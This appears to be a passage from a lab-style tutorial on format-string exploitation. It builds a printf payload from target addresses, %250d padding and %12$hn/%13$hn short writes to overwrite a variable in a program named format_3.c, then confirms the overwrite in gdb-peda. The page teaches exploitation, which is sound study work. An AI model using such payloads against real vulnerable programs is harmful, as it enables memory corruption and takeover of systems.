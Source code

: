 
Target address: **0804a030**
Target value: **0x1025544**

Let's split **0x1025544** into **0x0102** and **0x5544**.

0x0102 in decimal: **258** 
0x5544 in decimal: **21828**

So we will write the following:

1. **21828** to **0804a030**
2. **258** to **0804a032**

So let's structure our payload step by step.

1. Target address and address+2: 
    
    **"\x32\xa0\x04\x08\x30\xa0\x04\x08"**

2. We need to write on to target but %n gets number of bytes before it. So, let's pad 250 times (**%250d**) **258-8= 250**:

    **"\x32\xa0\x04\x08\x30\xa0\x04\x08%250d"**

3. Our buffer starts in the offset 12.

    **"\x32\xa0\x04\x08\x30\xa0\x04\x08%250d%12$hn"**

4. Then we need to overwrite second half of our target address. So, padding will be: **21828 - 258 = 21570**:

    **"\x32\xa0\x04\x08\x30\xa0\x04\x08%250d%12$hn%21570d"**
 
5. Just next to our first half of the payload is 13. By using direct access (**$**) short int write:

    **"\x32\xa0\x04\x08\x30\xa0\x04\x08%250d%12$hn%21570d%13$hn"**


Let's check if it works out or not:

```nasm
gdb-peda$ b*0x080484a9
Breakpoint 1 at 0x80484a9: file format_3.c, line 10.

gdb-peda$ r <<< $(python -c 'print "\x32\xa0\x04\x08\x30\xa0\x04\x08%250d%12$hn%21570d%13$hn"')
...TRIM...

gdb-peda$ b*0x80484ae
Breakpoint 2 at 0x80484ae: file format_3.c, line 11.

gdb-peda$ c
Continuing.

gdb-peda$ disas 
Dump of assembler code for function printbuffer:
   0x0804849d <+0>:	push   ebp
   0x0804849e <+1>:	mov    ebp,esp
   0x080484a0 <+3>:	sub    esp,0x18
   0x080484a3 <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484a6 <+9>:	mov    DWORD PTR [esp],eax
   0x080484a9 <+12>:	call   0x8048350 <printf@plt>
=> 0x080484ae <+17>:	leave  
   0x080484af <+18>:	ret    
End of assembler dump.

gdb-peda$ print target
$3 = 0x1025544
```
As seen above, **target** variable is overwritten with our target value (**0x1025544**).

